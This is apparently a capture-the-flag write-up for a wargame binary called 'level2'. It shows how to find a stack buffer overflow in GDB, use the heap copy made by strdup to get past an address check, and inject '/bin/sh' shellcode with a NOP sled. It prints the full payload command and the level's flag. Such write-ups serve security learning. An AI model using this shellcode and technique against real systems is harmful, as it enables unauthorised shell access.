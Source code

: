 # level2

We find an executable `level2`. We run `gdb level2` to examine it.

A `main` calls a `p` function, which seems to do a `gets`, compare an address, and run an `strdup` if the check fails.

This time, the executable doesn't call `system` ; we'll have to do it ourselves, with **shellcode**. Instead of filling our buffer with `A`, we're gonna fill it with executable code in hexadecimal.

There's a subtlety here : usually, we could run the code by directly pointing our return address to the buffer. But here, all stack addresses start with `0xb` - which is exactly what is checked by the `p` function. We'll have to use the heap by taking advantage of the `strdup` (which will duplicate our shellcode there) and setting our `eip` register to wherever `strdup` copies our buffer.

## The exploit

We need three things :

- The size of the buffer until `eip`
- A shellcode
- The address we're jumping to

We fill the beginning of the buffer with `NOP` instructions, which if read will simply direct to our shellcode.

We'll have something like this :

```
python2 -c 'print(NOP_INSTRUCTION * (BUFFER_SIZE - SHELLCODE_SIZE) + SHELLCODE + DESIRED_ADDRESS)'
```

### **Size of the buffer**

In GDB, we can run
```
i r $ebp
```
to get the ebp register's address. We get `0xbffff718`, which means `eip` is at `0xbffff71c` (4 bytes behind).

We adjust the `x/NUMBERxw $esp` command to show us the bytes from `esp` to `eip`.
```
x/28xw $esp
```
seems to do the trick.

We can tell the buffer starts at `0xbffff6cc` by inputting a bunch of `A`'s and checking where the `0x41414141` starts.

A quick `python2 -c "print(0xbffff71c - 0xbffff6cc)"` tells us the "buffer size" : `80`.

### **Shellcode**

For the shellcode, no need to reinvent the wheel. There are plenty of existing shellcodes on the internet.

On [this website](https://beta.hackndo.com/buffer-overflow/), we find the following shellcode, which is equivalent to `system("/bin/sh");` :

```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

### **Address**

Finally, we need the target address. We want something on the heap, so the place where `strdup` copies the buffer would be good.

We set a breakpoint after `strdup` with `break *p+105` and check the value of `eax` with :

```
p/x $eax
```

We get `0x804a008`.

### **The command**

Now we can substitute :

```
python2 -c 'print("\x90" * 35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08")'
```

Finally, we have to pipe it into the executable. Same as before, we run :

```
( python2 -c 'print("\x90" * 35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08")' ; cat ) | ./level2
```

## The flag

It works ! In our interactive shell, we run :

```
cat /home/user/level2/.pass
```

... and get the flag for `level2` :

```
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```